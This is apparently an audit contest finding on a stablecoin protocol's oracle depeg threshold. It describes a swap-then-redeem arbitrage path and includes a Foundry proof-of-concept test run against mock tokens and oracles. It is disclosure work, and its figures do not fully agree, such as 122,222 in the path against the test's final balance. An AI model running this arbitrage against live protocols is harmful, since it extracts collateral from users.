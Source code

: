 Cold Canvas Tortoise

High

# Arbitrage Vulnerability via Adjustable Max Depeg Threshold in Token Swap and Redemption Mechanism

### Summary

The system allows the admin to set the maximum depeg threshold for stablecoins through the [setMaxDepegThreshold function](https://github.com/sherlock-audit/2024-10-usual-labs-v1/blob/main/pegasus/packages/solidity/src/oracles/AbstractOracle.sol#L114-L123). While there is a check to prevent setting the threshold above [BASIS_POINT_BASE (10,000)](https://github.com/sherlock-audit/2024-10-usual-labs-v1/blob/main/pegasus/packages/solidity/src/constants.sol#L81), this still allows for thresholds up to 100%, Setting a threshold above a certain percentage (10% in this case) creates the potential for exploitation due to inflated or deflated oracle prices, especially since the protocol may allow token swaps and redemptions to occur within this tolerance.

### Root Cause

In [`Oracle.sol`](https://github.com/sherlock-audit/2024-10-usual-labs-v1/blob/main/pegasus/packages/solidity/src/oracles/AbstractOracle.sol#L25) the maxDepegThreshold check only has an upper bound of BASIS_POINT_BASE (10,000) which allows for depeg thresholds up to 100%, far exceeding safe stablecoin deviation limits.

- No reasonable upper limit is enforced for stablecoin price deviation
- Admin has unrestricted ability to set threshold up to 100%



### Internal pre-conditions

Admin needs to call setMaxDepegThreshold() to set maxDepegThreshold to be at least 10% (1,000 basis points)

### External pre-conditions

External token price oracle for rwaToken needs to fluctuate, setting Token A’s price to at least `1.10` and Token B’s price to `0.90` within a time period

### Attack Path

1. Admin sets the maximum depeg threshold by calling setMaxDepegThreshold() with a value that allows up to at least 10% depeg.
2. Attacker acquires Token A and ensures its price oracle is set to 1.10 USD (using the external price feed).
3. Attacker calls the swap() function on `daoCollateral`, exchanging Token A for USD0 stablecoin, receiving 110,000 USD0 for an initial `100,000` USD worth of Token A.
4. The external price oracle adjusts, setting Token B’s price to 0.90 USD.
5. Attacker calls the redeem() function on daoCollateral, exchanging 110,000 USD0 for Token B, receiving 122,222 units of Token B.

### Impact

_No response_

### PoC

```solidity
function testSwapWithSeveralRWAForFlashLoan() public {
        uint256 rawAmount = 100_000e6;
        (RwaMock rwa1, Usd0 stbc) = setupCreationRwa1_withMint(6, rawAmount);

        (RwaMock rwa2,) = setupCreationRwa2(6);
        // fund treasury with rwa2 tokens
        uint256 ONE_MILLION_FUNDING = 1_000_000e6;
        deal(address(rwa2), treasury, ONE_MILLION_FUNDING);

        // admin reset Max Depeg Treshold setMaxDepegThreshold
        vm.prank(admin);
        // admin set threshold to 10%
        classicalOracle.setMaxDepegThreshold(1000);

        // we need to whitelist alice for rwa
        _whitelistRWA(address(rwa2), bob);
        IRwaMock(rwa2).mint(bob, rawAmount);

        // add mock oracle for rwa token
        vm.prank(admin);
        _setOraclePrice(address(rwa2), 0.9e6);

        // push MMF price to 1.1$
        _setOraclePrice(address(rwa1), 1.1e6);
        assertEq(classicalOracle.getPrice(address(rwa1)), 1.1e18);
        // bob and bucket distribution need to be whitelisted
        _whitelistRWA(address(rwa1), bob);
        rwa1.mint(bob, rawAmount);

        assertEq(ERC20(address(rwa1)).balanceOf(bob), rawAmount);
        vm.startPrank(bob);
        ERC20(address(rwa1)).approve(address(daoCollateral), rawAmount);
        vm.label(address(rwa1), "rwa1");
        vm.label(address(rwa2), "rwa2");
        vm.label(address(classicalOracle), "ClassicalOracle");
        // we swap rawAmount of MMF (assumed stable) for STBC
        daoCollateral.swap(address(rwa1), rawAmount, 0);
        vm.stopPrank();

        // bob redeems his stbc for MMF
        vm.startPrank(bob);
        uint256 stbcBalance = ERC20(address(stbc)).balanceOf(bob);
        assertEq(stbcBalance, 110_000e18);
        assertEq(ERC20(address(rwa1)).balanceOf(bob), 0);

        stbc.approve(address(daoCollateral), stbcBalance);
        daoCollateral.redeem(address(rwa2), stbcBalance, 0);
        assertEq(ERC20(address(stbc)).balanceOf(bob), 0);

        assertEq(ERC20(address(rwa2)).balanceOf(bob), 222_100e6);
        vm.stopPrank();
    }
```

### Mitigation

Implement Stricter Upper Limit.